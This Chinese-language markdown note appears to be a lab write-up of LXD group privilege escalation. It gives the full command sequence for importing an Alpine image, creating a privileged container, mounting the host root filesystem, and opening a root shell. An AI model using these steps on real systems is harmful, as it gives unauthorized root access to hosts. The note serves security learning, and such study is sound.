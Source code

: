 # 参考

[看我如何利用LXD实现权限提升 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/network/216803.html)



# alpine镜像项目地址

https://github.com/saghul/lxd-alpine-builder





# 介绍

LXD linux容器守护进程是一个管理容器的系统，它基于LXC（Linux Containers）提供了一种更高层次的管理工具。



虽然LXD提供了隔离和资源管理的功能，但在某种情况下，简单的配置或逻辑漏洞可能会使得攻击者能够从容器提升到宿主机进行提权。



通过适当的操作，本地lxd组的用户成员可以将自己的权限提升为主机操作系统的root权限



这种特性与该用户是否已被授权sudo权限无关，而且全程也无需用户输入密码

 

在某些情况下，LXD甚至不会对调用它的用户权限进行检查和匹配，因此有很多方法利用LXD的这种特性来实施攻击



其中一项技术就是使用LXD API来将目标主机的根文件系统加载进一个容器中，一旦成功，攻击者就可以将低权限的用户提升为root权限，并且能够在不受任何限制的情况下访问目标系统的各种数据资源



执行id

![image-20250309193048990](assets/image-20250309193048990-1741802701899-1-1741802705668-3.png)

显示有lxd，即是LXD的组成员





# 提权过程

首先将构建好的alpine镜像克隆至本地

执行"build-alpine"命令完成最新版本的Alpine镜像构建，此操作必须由root用户完成；

将tar.gz文件上传至目标

```
gti clone https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine
```



这时会在当前目录产生一个tar.gz文件，然后将这个文件上传至靶机

将镜像添加进LXD

```
lxc image import ./alpine-v3.12-x86_64-20201014_1128.tar.gz --alias myimage
```

--alias 为该容器起一个别名



在创建容器之前，要初始化lxd，不然会报错

```
lxd init
```

开启LXD 的初始化进程

![image-20250309193204776](./assets/image-20250309193204776.png)



```
lxc init myimage ignite -c security.privileged=true
```

![image-20250309193247419](./assets/image-20250309193247419.png)

```
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
```

![image-20250309193254152](./assets/image-20250309193254152.png)

```
 lxc start ignite
```

![image-20250309193300550](./assets/image-20250309193300550.png)

```
lxc exec ignite /bin/sh
```

![image-20250309193306739](./assets/image-20250309193306739.png)

```
id
```

![image-20250309193313862](./assets/image-20250309193313862.png)

提权成功